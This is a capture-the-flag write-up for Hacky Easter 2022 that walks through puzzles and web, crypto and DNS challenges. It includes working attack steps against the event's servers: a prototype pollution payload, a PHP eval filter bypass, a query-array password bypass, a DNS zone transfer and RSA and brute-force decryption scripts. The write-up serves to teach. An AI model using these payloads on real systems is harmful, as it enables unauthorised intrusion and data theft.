
Jet Set Willy was an archaic game with a copy protection card. Googling that finds a [really nice article on its history](https://intarch.ac.uk/journal/issue45/2/1.html)


Helpfully this [available as a python script](https://github.com/aycock/jsw)

```python
$ python2 jswdecode.py | grep -e 'A 4' -e 'C 2' -e 'D 4' -e 'F 9' -e 'Q 2'
A 4 = 2 1 4 2
C 2 = 4 2 3 2
D 4 = 1 3 3 1
F 9 = 4 2 1 3
Q 2 = 1 2 4 3
```

**Egg**

```
he2022{J3t-53t-W1llY-f0r3v3R}
```

### Statues

Hope you like statues as much as I do!

I created a little tour in my favourite city for you:

    Richard I
    Peter Pan
    Albert
    James Cook

I will not reveal my favourite statue, though. Find it yourself!

🚩 Flag

    it's not the one on the challenge image (Joan of Arc)!
    name of the person represented by the statue
    all lowercase, no spaces, no special chars
    e.g. he2022{johnny}


**Solution**

These all appear to be statues in London, let's pull op a map!




Where the lines between the statues intersect is exactly the location of the Achilles statue!


**Egg**

```
he2022{achilles}
```

### Snoopy


**Challenge**

Snoopy dog found something interesting.

Can you get something interesting out of the 256 bytes he found?

```
IKIANJKDPKKAPJIDNKKAPNBHELCBHMGGDLOBLIPCKNAHFOEEBNFHALLBOMPGKJADFKDAGMNGIIGCDPEFBINCIPNFIMKGPPLFOMLGOKFAAIECBPJFM</Password>
<Domain type="NT">CORP</Domain>
</Credentials>
<ClientName>THUMPERSDESK7</ClientName>
<ClientType>ica30</ClientType>
<ClientAddress>10.1
```
**Solution**

Looks like a CITRIX password, Cyberchef can decode those!

It complains about not being the right length, so we are probably missing some characters at the start of the snippet, so we add `A`s to the beginning until it decrypts

```
궥.2022{ctx1_41nt_3nKryp710n!}
```

luckily we can guess the start of the string ;)

**Egg**

```
he2022{ctx1_41nt_3nKryp710n!}
```

### LEDs

**Challenge**

I got this hex dump, but I don't know what it is.

Any idea?

[LEDS.hex](writeupfiles/leds.hex)

**Solution**

We have a peek at the file:

```
:020000040000FA
:0400000A9901C0DEBA
:10000000C0070000D1060000D1000000B1060000CA
:1000100000000000000000000000000000000000E0
:100020000000000000000000000000005107000078
:100030000000000000000000DB000000E500000000
:10004000EF000000F9000000030100000D010000B6
:1000500017010000210100002B0100003501000004
[..]
```

Some Googling reveals this to be code for the micro.bit

We can import the hex file here: https://makecode.microbit.org/



We can also get it in javascript form:

```js
input.onButtonPressed(Button.A, function () {
    j += 0 - 1
})
input.onButtonPressed(Button.AB, function () {
    basic.showString("" + (scribble(c)))
})
input.onButtonPressed(Button.B, function () {
    j += 5
})
function scribble (s: string) {
    for (let i = 0; i <= s.length - 1; i++) {
        r = "" + r + String.fromCharCode(s.charCodeAt(i) + j)
    }
    return r
}
let r = ""
let j = 0
let c = ""
c = "ZW$\"$$m`%&fQ^#ff^%QV%h#U%o"

```

The LEDs seem to display the `c` variable if we press the "A+B" button

We know that this likely has to become the flag, so `Z` should become `h`

So basically a caesar shift, but funner to do the solution on the microbit:



We need to setup a shift of 14, so we hit the B buttin 3 times to make 15, then hit the A button to subtract one, then hit the "A+B" button to show the solution on the LEDs :)

**Egg**

```
he2022{n34t_l1ttl3_d3v1c3}
```


## Level 5


### Rabbits with Hats

**Challenge**

I'm looking for a friend of mine who had to flee from his evil owner.

He must have found a shelter for wildlife, but didn't tell me where it is. He just said he would go join rabbits with hats. What the heck do these three words mean??

🚩 Flag

- he2022{nameoftheplace}
- all lowercase, no spaces
- first letter is j, last one is y
- e.g. he2022{junglezooaviary}

**Solution**

once you read "*What* the heck do these *three words* mean?" and remember that `what3words` exists as a geocoding service, simply go to

[https://what3words.com/rabbits.with.hats](https://what3words.com/rabbits.with.hats) and see that "jackrabbit flat wildlife sanctuary" is nearby

**Egg**

```
he2022{jackrabbitflatwildlifesanctuary}
```

### Crypto Bunny

**Challenge**

View my verified achievement from (HOP)².



**Solution**

Sounds like a badging system, checking the exifdata confirms:

```
$ exiftool writeupfiles/crypto_bunny.png | grep open
Openbadges                      : {.  "@context": "https://w3id.org/openbadges/v2",.  "type": "Assertion",.  "id": "https://api.eu.badgr.io/public/assertions/aeT2h9EWTHyiqHk7Yx4X4Q",.  "badge": "https://api.eu.badgr.io/public/badges/LaGEPKu1R2W5mg221vdV4g",.  "image": "https://api.eu.badgr.io/public/assertions/aeT2h9EWTHyiqHk7Yx4X4Q/image",.  "verification": {.    "type": "HostedBadge".  },.  "issuedOn": "2021-07-14T22:00:00+00:00",.  "recipient": {.    "hashed": true,.    "type": "email",.    "identity": "sha256$821158dcab489c45156fd110707bd2ec51d4365b1f34ed42ddde612383717338",.    "salt": "9529d9c5e91b4475a52b46fbe37cb55d".  },.  "extensions:recipientProfile": {.    "@context": "https://openbadgespec.org/extensions/recipientProfile/context.json",.    "type": [.      "Extension",.      "extensions:RecipientProfile".    ],.    "name": "Hacky Easter".  }.}
```

Looking at [one of the urls](https://eu.badgr.com/public/assertions/aeT2h9EWTHyiqHk7Yx4X4Q) they have an 'earning criteria' of:

```
U2FsdGVkX1/G2uIf1R3WmIzrCnm3Hz6UQ9Dmm94/0/TtatYB5MDZZRgn/tjzQs5uzuxxPutLznGQlXOTMlcWjg==
```

Which looks interesting when b64 decoded

```
0000000        746c6153        5f5f6465        1fe2dac6        98d61dd5
          S   a   l   t   e   d   _   _   F   Z   b  us   U  gs   V can
0000020        790aeb8c        943e1fb7        9be6d043        f4d33fde
         ff   k  nl   y   7  us   > dc4   C   P   f esc   ^   ?   S   t
0000040        01d66aed        65d9c0e4        d8fe2718        6ece42f3
          m   j   V soh   d   @   Y   e can   '   ~   X   s   B   N   n
0000060        3e71ecce        71ce4beb        93739590        8e165732
          N   l   q   >   k   K   N   q dle nak   s dc3   2   W syn  so
```

Googling the `salted__` I find other ctf posts (lmao)

> this shows that this is OpenSSL’s salted format. We know that the file is symmetrically encrypted with OpenSSL because of this format, but the output doesn’t tell us which ciphers were used or any other helpful info.
> -- https://nineninenine.blog/


**Egg**

```
```

### Jupiter One

**Challenge**

Jupiter is hiding something.

Can you find it?


**Solution**

Extracting the LSB plane (e.g. with [stegonline](https://stegonline.georgeom.net)) gives us the flag



**Egg**

```
he2022{jim_jupiter_the_healthiest_man_in_chicago!!}
```

### Ghost in a Shell 3


**Solution**


```
276c642cc2e4:/opt/bannerkoder$ cat /var/spool/cron/crontabs/root
* * * * * /opt/bannerkoder/cipher.sh > /dev/null 2>&1
```

Found this (via the crontab, weirdly)

```
276c642cc2e4:/opt/bannerkoder$ cat cipher.sh
#!/bin/bash
date +%s | md5sum | base64 | head -c 32 > /tmp/7367111C2875730D00686C13B98E7F36
openssl enc -aes-256-cbc -e -in /home/pinky/flag.txt -out /home/pinky/flag.enc -kfile /tmp/7367111C2875730D00686C13B98E7F36276c642cc2e4:/opt/bannerkoder$
```

Ok, so we just need to loop over the +%s for that minute to decrypt

```
while true; do openssl enc -aes-256-cbc -d -in flag.enc -k "$(date +%s | md5sum | base64 | head -c 32)"; sleep 0.5; done;
```

and bingo!

**Egg**

```
he2022{0p3n-35-35-37-f0r-pr0fit}
```

### Coney Island Hackers


**Challenge**

Coney Island Hackers have a secret web portal.

Using advanced social engineering techniques, you found out their secret passphrase: eat,sleep,hack,repeat. However, it seems to take more than just entering the passphrase as-is. Can you find out what?

http://46.101.107.117:2202

Note: The service is restarted every hour at x:00.

**Solution**

```
if (req.query.passphrase == 'eat,sleep,hack,repeat')
```

This hint was super unhelpful at first, eventually I fetched the HEAD of the website

```
$ curl -I http://46.101.107.117:2202/?passphrase=eat,sleep,hack,repeat
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 609
ETag: W/"261-eAa/QxeLx6CjmYOc9KnGojwfNKY"
Date: Thu, 05 May 2022 16:20:04 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

Ahh express JS. After some super sleuthing (i.e. googling `express nodejs form password check ctf hack`), I [found this article which had a URL with split up password fields](https://www.doyler.net/security-not-included/nodejs-code-injection). This answered it for me, we need to pass in the passphrase as multiple elements like a list. In the old php days I remember seeing that quite often with `?param[]=value&param[]=value2`

Which, given the javascript behaviour of stringifying lists for comparison, by helpfully adding `,`s:

```
[1,2,3,4].toString()
"1,2,3,4"
```

means that's how we solve it without commas:

```
http://46.101.107.117:2202/?passphrase[]=eat&passphrase[]=sleep&passphrase[]=hack&passphrase[]=repeat
```

**Egg**

```
he2022{el_dorado_arkade}
```

### Textbook

**Challenge**

I've got the source code and the output of a simple cipher.

Can you calculate the flag from it?

**Solution**

Looking at [`writeupfiles/textbook/generate.py`](writeupfiles/textbook/generate.py), we see it's super simple, the numbers are all:

```python
ct.append(pow(ord(c), e, n))
```

We know `c`, we know `e` (65537) and we know `ct` (from the [`output`](writeupfiles/textbook/output.py) file).

Eventually we found [this answer on Crypto.SE](https://crypto.stackexchange.com/a/14352), the important bit reads:

>  Actually, it turns out that if the public exponent isn't too large, the attacker is in luck; if the attacker takes two known plaintext/ciphertext pairs P1,C1 and P2,C2, [they] can compute $$gcd(P^{e}_{1}−C_{1}, P^{e}_{2}−C_{2})$$

That's a trivial attack for us. Looking at the `output` file, we can even see the repetition of `2022` apparent clearly in the header, the repeated numbers makes it very easy to say it's the same input and likely we're looking at the encrypted values of `he2022` so let's pull that into python, pairs of PT + CT:

```python
import itertools
import string
import gmpy2
from output import CT

e = 65537

known = {
    'h': 18775795524598247683907618594648741761388590921639844605467180006396151189786215265758535337575193670309021582855264867028892978548414321559653798152761136051485505665603301349985640126614264715786618396324939151873322657200895440952009868552269929884443913952032345927889429757591197555362257974762300427077,
    'e': 26011351209175025206763581075024853552087390113459179407864027744918423757072640750702521967542438972832007354186124976428214658014339313691584211007102294219513772038953948006839749138993127974767870845453318323126145261576999544252516469455909654786162700125163666914824091205600834887595162995913379417502,
    '2': 31126027103773387351407738595758142992757290966422921906427583547807098239051608888510957245463260061378552690318743836051281072776395967616847139914308771289374849671126133828143242104999626354384556859251290533589200430407800561772545504440865161148516656248368860617679069912661054218632351283389360492636,
    '0': 33684185672169051982585355390624457073781125802593439786734555391921020764135794272438413202017837358694253342130763010770015611379636085226552836884143628891066368992267302059813243306707573393171165117187880314519923028262275396235438297673412439133301420995863550669342151850235528917701042594555186962024,
    '{': 43283051076672963140434066373128449128233454473574366866727769790690168423259916523176359868863407806090707305813302415073332716039344877397177362916244707139453074977025784117197746543408252406901718015246037520507913732166108314251738782237756346797656994325200715896452351937956613340716980498944591436851,
    '}': 3091633148363652646770092010443201598237353278811637957518304391171561834765093317629653127123047081493716413860116204322756599258146171304663380237017195643995093453756601675833814640677571021005978496814057808056012886878634413057457512996940948408306118798039657509816558179390529087357382252480124057030,
}

```

Then we can compute the requested value:

```python
possible = []

for pairs in itertools.combinations(known.keys(), 2):
    gcd = gmpy2.gcd(
        pow(ord(pairs[0]), e) - known[pairs[0]],
        pow(ord(pairs[1]), e) - known[pairs[1]]
    )

    if gcd not in possible:
        possible.append(gcd)
```

And looking at the `possible` values against factordb, we see they're all multiples of the very first value we find

```python
n = 48309952986767828810211116437346335010234966410717961253604004949499868025260127897876577906582426195177515813973602817599712854363293887621365505327948627549148720502559259505787493271247264526163068321300112038993135083719786793834890849093167509340135523281225587591461719272832908482103617007228902444181
```

So let's check that we have the correct N by using it to encryp:

```python
# Check if N is right.
for k, v in known.items():
    print('====')
    print(v)
    print(pow(ord(k), e, n))
```

And it defo is. So we'll load `output` and create a simple lookup table from `string.printable`

```python
lookup = {}

for i in string.printable:
    ct = pow(ord(i), e, n)
    lookup[ct] = i

print(''.join([lookup[x] for x in CT]))
```


**Egg**

```
he2022{!!t3xtb00k_crypt0!!}
```


## Level 6

### H2O

TODO


### Dean's Transfers


**Challenge**

Dean just launched his taxi business named Dean's Transfers.

For his website, he first wanted to register deans-transfers.com, but then found out there are so many fancy top-level domains out there. You found a service running on his server - find a flag there!

The service is running on port 2211 on 46.101.107.117.


**Solution**

There is nothing if we open this in the browser, and no response in netcat

The hint says "Service Fingerprinting"

So let's try to identify the service running on that port"

```
$ nmap 46.101.107.117 -p 2211 -sV

Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-05 21:56 CEST
Nmap scan report for 46.101.107.117
Host is up (0.070s latency).

PORT     STATE SERVICE VERSION
2211/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u6 (Debian Linux)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.84 seconds
```

ok, we see dns server running on the port, we can work with that.

so it sounds from the challenge description like the domain is deans-transfers.<tld>, but it's not .com, lets find out what it is

We vind a list of all TLDs here: https://data.iana.org/TLD/tlds-alpha-by-domain.txt

We loop over these and perform a dig command

```
$ for x in $(cat tlds-alpha-by-domain.txt); do dig +noall +answer +multiline deans-transfers.$x any -p 2211 @46.101.107.117; done;

deans-transfers.express. 302400 IN SOA deans-transfers.express. admin.deans-transfers.express.deans-transfers.express. (
                                2          ; serial
                                302400     ; refresh (3 days 12 hours)
                                43200      ; retry (12 hours)
                                302400     ; expire (3 days 12 hours)
                                302400     ; minimum (3 days 12 hours)
                                )
deans-transfers.express. 302400 IN NS ns.deans-transfers.express.
```


Aha! so it's deans-transfers.express

Let's try a DNS zone tranfer

```
dig @46.101.107.117 -p 2211 axfr deans-transfers.express                                                                                           [05-05-22 21:49:25]

; <<>> DiG 9.16.15-Ubuntu <<>> @46.101.107.117 -p 2211 axfr deans-transfers.express
; (1 server found)
;; global options: +cmd
deans-transfers.express. 302400 IN      SOA     deans-transfers.express. admin.deans-transfers.express.deans-transfers.express. 2 302400 43200 302400 302400
deans-transfers.express. 302400 IN      NS      ns.deans-transfers.express.
aGUyMDIye2QzNG5fZHIxdjNzX3lvdV8zdjNyeXdoM3IzISF9.deans-transfers.express. 302400 IN A 10.0.0.8
base64decode.deans-transfers.express. 302400 IN A 10.0.13.9
ns.deans-transfers.express. 302400 IN   A       10.0.0.2
deans-transfers.express. 302400 IN      SOA     deans-transfers.express. admin.deans-transfers.express.deans-transfers.express. 2 302400 43200 302400 302400
;; Query time: 24 msec
;; SERVER: 46.101.107.117#2211(46.101.107.117)
;; WHEN: Thu May 05 21:49:32 CEST 2022
;; XFR size: 6 records (messages 1, bytes 309)
```

ooh, `aGUyMDIye2QzNG5fZHIxdjNzX3lvdV8zdjNyeXdoM3IzISF9.deans-transfers.express` looks interesting, let's base64 decode that

```
$ echo "aGUyMDIye2QzNG5fZHIxdjNzX3lvdV8zdjNyeXdoM3IzISFf9" | base64 -d
he2022{d34n_dr1v3s_you_3v3rywh3r3!!}
```

**Egg**

```
he2022{d34n_dr1v3s_you_3v3rywh3r3!!}
```


### C2 Traffic

**Challenge**

We have detected C2 payloads on one of our servers! The blue team have extracted its communications from the traffic logs, and Operations have dumped the payload code from the running process.

Find out what the actors have exfiltrated!

**Solution**

There's a json file, and some encrypted contents inside. The companion python file shows us how the encryption was done, but there's a missing `B`, which is randomly chosen. The 'problem' to solve is the value of B, an integer in [1, 2272978429], and the only operation we need to calculate is `pow` so this probably means we can just trivially bruteforce it, the simplicity of the operation and small search space, it should be fast (see [writeupfiles/c2/payload-mp.py](writeupfiles/c2/payload-mp.py))

20 minutes later we've recovered the value

```
620620105
 60%|█████████████████████████████████████████████████████████████████████▌                                              | 1363765343/2272978428 [20:12<05:09, 2937691.27it/s]
```

And plugging that in we can reverse it (see [writeupfiles/c2/solution.py](writeupfiles/c2/solution.py)) and can decrypt the b64:

```
b'ls'
b'cat sensitive.txt'
b'sensitive.txt\n'
b'he2022{wh4dy4_m3an_32_b1t5_1s_1n53cur3}\n'
```

**Egg**

```
he2022{wh4dy4_m3an_32_b1t5_1s_1n53cur3}
```

### 自動販売機

**Challenge**

I like these Japanese vending machines! ๑(◕‿◕)๑

If I could just get a 🚩...

http://46.101.107.117:2210

Note: The service is restarted every hour at x:00.

**Solution**

Based on some chatter in discord, we used the attack described here: [https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)

```bash
$ curl --silent 'http://46.101.107.117:2210/order' -X POST -H 'Content-Type: application/json' --data-raw '{"__proto__": {"amount": 6, "item": "🚩"}}'
お楽しみください 🚩: he2022{p0llut10n_41nt_g00d}%
```

**Egg**

```
he2022{p0llut10n_41nt_g00d}
```

### Dingos!

**Challenge**

If you like 🐕 Dingos, check out my new web site!

👉 [my fancy Dingo web site](https://dingos.s3.eu-west-1.amazonaws.com/index.html)

**Solution**

The website specifically mentions "version 2", and a file listing is available.

```
$ aws s3 ls --recursive s3://dingos/
2022-02-09 08:44:52      63320 img/dingo1.jpg
2022-02-09 08:44:52      50718 img/dingo2.jpg
2022-02-09 08:44:52     107979 img/dingo3.jpg
2022-02-09 08:44:51     149397 img/dingo4.jpg
2022-02-09 08:45:16      96515 img/dingo_egg_ognid.png
2022-02-09 08:45:16        731 index.html
```

the current version of the egg file:


doesn't have anything useful. But if you know that S3 supports file versioning, we can see older versions of the file.

```
$ aws s3api list-object-versions --bucket dingos | jq '.Versions[] | select(.Key == "img/dingo_egg_ognid.png")'
{
  "ETag": "\"ba360fc78d0e6a5fbd99a6de04230247\"",
  "Size": 96515,
  "StorageClass": "STANDARD",
  "Key": "img/dingo_egg_ognid.png",
  "VersionId": "bBYeh2BHMNmSMjrwPuwe3IqT00UCd0Dq",
  "IsLatest": true,
  "LastModified": "2022-02-09T07:45:16.000Z",
  "Owner": {
    "DisplayName": "philipp.ps.sieber",
    "ID": "5b93a57df84ba174c0c60cdea70ca63d204bc59e3877d4b7ff1d76b79500562f"
  }
}
{
  "ETag": "\"7aea46507f7d9c400854bf721fbc76ed\"",
  "Size": 34716,
  "StorageClass": "STANDARD",
  "Key": "img/dingo_egg_ognid.png",
  "VersionId": "efyGzmXduxQAcaQIBgsxEj5i8xlCUdjG",
  "IsLatest": false,
  "LastModified": "2022-02-09T07:44:51.000Z",
  "Owner": {
    "DisplayName": "philipp.ps.sieber",
    "ID": "5b93a57df84ba174c0c60cdea70ca63d204bc59e3877d4b7ff1d76b79500562f"
  }
}
```

And thus obtain our URL!

https://dingos.s3.eu-west-1.amazonaws.com/img/dingo_egg_ognid.png?versionId=efyGzmXduxQAcaQIBgsxEj5i8xlCUdjG


**Egg**

```
he2022{4_b4rk1n9_D1NG0_n3v3r_b1735}
```

### Cyclic!

TODO


## Level 7


### C0ns0n4nt Pl4n3t

Apollo wants his name printed on that fancy new site. He's constantly failing as vowels and some special characters are blocked when entered.

Can you help him?

http://46.101.107.117:2205

Note: The service is restarted every hour at x:00.


**Solution**

If we enter a vowel, the site will not print our entry.

For example:

```
http://46.101.107.117:2205/?name=Apollo
```

Response: `f0rb1dd3n`

If we enter just a double-quote, we trigger an error:

```
Parse error: syntax error, unexpected '"' in /var/www/html/index.php(17) : eval()'d code on line 1
```

So we know this is PHP in the backend. Let's try escaping our vowels:


```
http://46.101.107.117:2205/?name=\x41p\x6fll\x6f
```

Bingo! We get the flag in the response:

```
Cngrts, hr's yr flg:
he2022{v0w3ls_4r3_f0r_n3rd5!}
```


**Egg**

```
he2022{v0w3ls_4r3_f0r_n3rd5!}
```


### Layer Cake

**Challenge**

**Solution**

Upon pulling the first layer was fat, the next 30 were small, so, guessing they're just overwriting a file repeatedly.

So we immediately write this handy one liner, to search through every diff directory provided by docker, copying any egg.png files into tmp.

```
for x in $(docker inspect hackyeaster/layercake:latest | jq '.[0].GraphDriver.Data.LowerDir' -r | tr ':' '\n'); do
	egg=$(sudo find $x -name egg.png); hash=$(echo $egg | cut -d/ -f 6); sudo cp $egg /tmp/egg-$hash.png;
done;
```

And then we see [all of the eggs](./writeupfiles/docker/) and rely on manual inspection to find our egg.


**Egg**

```
he2022{th3_c4k3_is_a_l1e!}
```

### Jypiter Two

**Challenge**

Jupiter is hiding even more.

This time, it is a bit more tricky.


**Solution**

**Egg**


### Casino

TODO


### Go For Gold!

TODO

### City Trip 2

**Challenge**

Later that year, I was travelling again. Find out where I shot this picture! This time, I want GPS coordinates.

🚩 Flag

    GPS coordinates, rounded to three decimals
    , as separator
    . as decimal point
    example:
        40°46'30.3"N 73°57'59.8"W
        40.775082, -73.966599
        he2022{40.775,-73.967}


**Solution**

We know it's in manchester based off of the phone number.

After fruitless attemts to automatically discover an intersection of tram + street + bike lane, combined with people commenting endlessly about how fast they did it, we saw the sign and tried reverse image searching it. It return a lot of crufixes in the current format. So we stretched it, and...still crucifixes and churches for some reason.

So we googled "manchester pub signs" (guessing it was a pub) and scrolled until we found [this page linked from the search results](https://www.geograph.org.uk/photo/1843484) which looked spot on, plus some ageing. That turned out to be annoying to google but between knowing it was in Ancoats and that it was on pollard street, eventually we found the right location and angle.


**Egg**


```
he2022{53.482,-2.216}
```

